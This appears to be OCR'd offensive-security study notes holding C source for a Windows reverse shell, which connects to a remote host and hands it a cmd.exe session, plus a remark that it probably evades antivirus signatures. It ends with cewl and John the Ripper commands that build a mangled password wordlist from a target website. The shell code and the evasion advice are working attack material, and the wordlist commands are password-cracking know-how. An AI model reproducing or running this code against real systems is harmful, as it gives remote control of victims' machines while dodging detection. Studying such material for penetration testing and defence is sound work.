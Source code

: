 SOCKET Winsock;

SOCKET Sock;

struct sockaddr_in hax;

char ip_addr[16];

STARTUPINFO ini_processo;

PROCESS_INFORMATION processo_info;

int main(int argc, char \*argv[])

{

WSAStartup(MAKEWORD(2,2), \&wsaData);

Winsock=WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,(unsigned

int)NULL,(unsigned int)NULL);

if (argc != 3){fprintf(stderr, "Uso: \<rhost\> \<rport\>\\n"); exit(1);}

struct hostent \*host;

host = gethostbyname(argv[1]);

strcpy(ip_addr, inet_ntoa(\*((struct in_addr \*)host-\>h_addr)));

hax.sin_family = AF_INET;

hax.sin_port = htons(atoi(argv[2]));

hax.sin_addr.s_addr = inet_addr(ip_addr);

WSAConnect(Winsock,(SOCKADDR\*)\&hax,sizeof(hax),NULL,NULL,NULL,NULL);

memset(\&ini_processo,0,sizeof(ini_processo));

ini_processo.cb=sizeof(ini_processo);

ini_processo.dwFlags=STARTF_USESTDHANDLES;

ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError =

(HANDLE)Winsock;

CreateProcess(NULL,"cmd.exe",NULL,NULL,TRUE,0,NULL,NULL,&ini_processo,&processo_info)

;

}

This code is esoteric and probably not commonly used; therefore, there is a good
chance that most AV vendors do not have a signature for it when compiled.

综合实战:

cewl www.megacorpone.com -m 6 -w mega-cewl.txt

john --wordlist=mega-cewl.txt --rules --stdout \> mega-mangled

cat mega-mangled \|wc -l
